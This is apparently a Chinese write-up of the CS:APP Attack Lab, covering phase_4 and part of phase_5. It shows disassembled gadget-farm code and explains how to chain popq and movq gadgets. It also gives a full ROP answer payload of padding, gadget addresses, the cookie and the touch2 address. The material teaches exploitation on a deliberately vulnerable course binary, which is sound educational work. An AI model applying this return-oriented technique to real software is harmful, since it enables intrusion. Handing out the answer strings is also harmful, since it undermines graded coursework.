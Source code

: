 ```assembly
  4019ae:	c7 07 48 89 c7 c7    	movl   $0xc7c78948,(%rdi)
  4019b4:	c3                   	retq   

00000000004019b5 <setval_424>:
  4019b5:	c7 07 54 c2 58 92    	movl   $0x9258c254,(%rdi)
  4019bb:	c3                   	retq   

00000000004019bc <setval_470>:
  4019bc:	c7 07 63 48 8d c7    	movl   $0xc78d4863,(%rdi)
  4019c2:	c3                   	retq   

00000000004019c3 <setval_426>:
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  4019c9:	c3                   	retq   

00000000004019ca <getval_280>:
  4019ca:	b8 29 58 90 c3       	mov    $0xc3905829,%eax
  4019cf:	c3                   	retq
```

首先，由于地址是个常数，只能使用 `popq` 指令，对应机器码范围在 `58 - 5f`，可以看到 `0x4019cc` 处就满足要求，对应寄存器是 `%rax`，再寻找 `movq   %rax, %rdi`，发现 `0x4019c5` 处恰好满足，那么本题就解决了。

#### 答案

```assembly
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
cc 19 40 00 00 00 00 00 /* popq   %rax       */
fa 97 b9 59 00 00 00 00 /* cookie            */
c5 19 40 00 00 00 00 00 /* movq   %rax, %rdi */
ec 17 40 00 00 00 00 00 /* touch2()          */
```

### phase_5

#### 目标

本题要实现 `phase_3` 一样的目标，只不过由于栈随机化和禁止栈执行，无法简单确定字符串地址，也不能使用代码注入的方法。

#### 分析

本题与 `phase_4` 相比，增加了以下 `farm` ：

```assembly
00000000004019d6 <add_xy>:
  4019d6:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  4019da:	c3                   	retq   

00000000004019db <getval_481>:
  4019db:	b8 5c 89 c2 90       	mov    $0x90c2895c,%eax
  4019e0:	c3                   	retq   

00000000004019e1 <setval_296>:
  4019e1:	c7 07 99 d1 90 90    	movl   $0x9090d199,(%rdi)
  4019e7:	c3                   	retq   

00000000004019e8 <addval_113>:
  4019e8:	8d 87 89 ce 78 c9    	lea    -0x36873177(%rdi),%eax
  4019ee:	c3                   	retq   

00000000004019ef <addval_490>:
  4019ef:	8d 87 8d d1 20 db    	lea    -0x24df2e73(%rdi),%eax
```
